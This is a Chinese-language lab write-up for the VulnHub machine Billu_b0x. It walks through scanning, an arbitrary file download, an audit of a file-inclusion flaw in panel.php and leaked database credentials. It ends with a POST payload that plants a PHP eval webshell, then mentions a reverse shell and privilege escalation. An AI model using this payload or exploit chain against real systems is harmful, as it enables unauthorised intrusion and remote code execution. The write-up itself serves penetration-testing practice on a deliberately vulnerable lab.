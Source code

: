 ### 环境搭建
>[https://download.vulnhub.com/billu/Billu_b0x.zip](https://download.vulnhub.com/billu/Billu_b0x.zip)   
hash:ebcb435522917a67b54274900b37c6af

### 开搞
#### 首先nmap开路    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_1.png)    
访问```http://192.168.14.149/```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_2.png)
>向世界上最帅老男人致敬

查看HTML源码并没什么*用，SQLmap无果后遍历目录       
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_3.png)    
访问```http://192.168.14.149/test.php``` 报错缺少参数```file```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_4.png)
尝试POST提交```file=test.php```此处为任意文件下载，将目录遍历出的文件全部下载开始代码审计。     
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_5.png)    

#### 审计

主页登录成功后跳转至```panel.php```查看panel.php源码第33行起，当```load```为非add与show时可构造任意文件包含攻击   
```
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	
	if($choice==='add')
	{
       		include($dir.'/'.$choice.'.php');
			die();
	}
	
        if($choice==='show')
	{
        
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
}
```

文件上传验证文件后缀与文件类型，经测试无法构造绕过。
```
$image=array('jpeg','jpg','gif','png');
	if(in_array($r,$image))
	{
		$finfo = @new finfo(FILEINFO_MIME); 
	$filetype = @$finfo->file($_FILES['image']['tmp_name']);
		if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
```
#### 利用
```c.php```中找到数据库账号密码```billu/b0x_billu```,登录phpmyadmin找到用户名口令    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_6.png)   
登录成功后上传图片马到```uploaded_images/```目录下构造payload如下
```
POST /panel.php
continue=&load=uploaded_images/trial.png&trial=file_put_contents('test.php','<?php @eval($_POST[test]);?>');
```    
菜刀连接```uploaded_images/test.php```查看版本、反弹shell、提权、写入免密密匙  然后就没有然后了    
[https://www.exploit-db.com/exploits/37292/](https://www.exploit-db.com/exploits/37292/)
